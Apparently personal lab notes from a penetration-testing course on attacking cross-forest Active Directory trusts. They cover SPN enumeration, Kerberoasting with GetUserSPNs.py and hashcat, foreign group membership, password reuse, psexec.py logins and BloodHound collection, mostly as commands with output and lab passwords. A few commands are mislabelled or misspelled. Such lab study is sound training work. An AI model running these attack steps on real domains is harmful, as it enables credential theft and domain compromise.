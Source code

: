 -----
# FROM WINDOWS
-----
### Enumerate Accounts for Associate SPNs Using Get-DomainUser
```PowerShell
 Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | selet SamAccountName

samaccountname
--------------
krbtgt
mssqlsvc
sapsso
```

### Enumerate found account
```bash
Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity sapsso | select samaccountname, memberof

samaccountname memberof
-------------- --------
sapsso         CN=Domain Admins,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL
```

-  The above input shows this account` is a member of "Domain Admins" group


- Perform a Kerberoasting Attack with Rubeus
```PowerShell
hashcat -m 13100 hashes rockyou -o cracked.txt
```

## Admin Password Reuse & Group Membership
- Domain A has a user adm_bob.smith in Domain Admins group, while domain B has bsmith_admin -> worth trying reuse password.
- Enumerate groups with users that do not belong to the domain using [Get-DomainForeignGroupMember](https://powersploit.readthedocs.io/en/latest/Recon/Get-DomainForeignGroupMember/)

```PowerShell
Get-DomainForeignGroupMember -Domain FREIGHTLOGISTICS.LOCAL

GroupDomain             : FREIGHTLOGISTICS.LOCAL
GroupName               : Administrators
GroupDistinguishedName  : CN=Administrators,CN=Builtin,DC=FREIGHTLOGISTICS,DC=LOCAL
MemberDomain            : FREIGHTLOGISTICS.LOCAL
MemberName              : S-1-5-21-3842939050-3880317879-2865463114-500
MemberDistinguishedName : CN=S-1-5-21-3842939050-3880317879-2865463114-500,CN=ForeignSecurityPrincipal
                          s,DC=FREIGHTLOGISTICS,DC=LOCAL

# Resolve the SID 
Convert-SidToName S-1-5-21-3842939050-3880317879-2865463114-500

INLANEFREIGHT\administrator
```

- We found the FREIGHTLOGISTICS.LOCAL has the built-in Administrator account 

- Confirm the access using `Enter-PSSession`
```PowerShell
Enter-PSSession -ComputerName ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -Credential INLANEFREIGHT\administrator

# ACADEMY-EA-DC03 can be found when using Rubeus
```

- If we're successful, we can confirm we can log into the DC03 Domain using INLANEFREIGHT/administrator account

-----
# FROM LINUX
-----

## Cross-Forest Kerberoasting
### Use GetUserSPNs.py
```bash
GetUserSPNs.py -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley #transporter@4

Password:
ServicePrincipalName                 Name      MemberOf                                                PasswordLastSet             LastLogon  Delegation 
-----------------------------------  --------  ------------------------------------------------------  --------------------------  ---------  ----------
MSSQLsvc/sql01.freightlogstics:1433  mssqlsvc  CN=Domain Admins,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL  2022-03-24 15:47:52.488917  <never> 
```

- Rerun the command with `-request` flag to retrieve TGT ticket.
```bash
GetUserSPNs.py -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley -request -outputfile $FILENAME
```

- Crack the hashes with HashCat with `-m 13100`

- If successful, check if this account exists in our current domain and if it suffers from password re-use.

- Log into the machine using psexec.py
```bash
psexec.py freightlogistics.local/sapsso@academy-ea-dc03.freightlogistics.local
```

### Hunting Foreign Group Membership with BloodHound-python
- Add INLANEFREIGHT.LOCAL to /etc/resolv.conf
```bash
sudo nano /etc/resolv.conf

# Dynamic resolv.conf(5) file for glibc resolver(3) generated by resolvconf(8)
#     DO NOT EDIT THIS FILE BY HAND -- YOUR CHANGES WILL BE OVERWRITTEN
# 127.0.0.53 is the systemd-resolved stub resolver.
# run "resolvectl status" to see details about the actual nameservers.

#nameserver 1.1.1.1
#nameserver 8.8.8.8
domain INLANEFREIGHT.LOCAL
nameserver 172.16.5.5
```

- Running BloodHound against the target
```bash
bloodhound-python -d INLANEFREIGHT.LOCAL -dc ACADEMY-EA-DC01 -c All -u forend -p Klmcargo2
```

- Compress the file
```bash
zip -r ilfreight_bh.zip *.json
```

- Adding FREIGHTLOGISTICS.LOCAL to /etc/resolv.conf
```bash
sudo nano /etc/resolv.conf

# Dynamic resolv.conf(5) file for glibc resolver(3) generated by resolvconf(8)
#     DO NOT EDIT THIS FILE BY HAND -- YOUR CHANGES WILL BE OVERWRITTEN
# 127.0.0.53 is the systemd-resolved stub resolver.
# run "resolvectl status" to see details about the actual nameservers.

#nameserver 1.1.1.1
#nameserver 8.8.8.8
domain FREIGHTLOGISTICS.LOCAL
nameserver 172.16.5.238
```

- Run BloodHound against FREIGHTLOGISTICS.LOCAL
```bash
bloodhound-python -d FREIGHTLOGISTICS.LOCAL -dc ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -c All -u forend@inlanefreight.local -p Klmcargo2
```

- Zip the json files
- Upload both zip files to BloodHound for analysis.

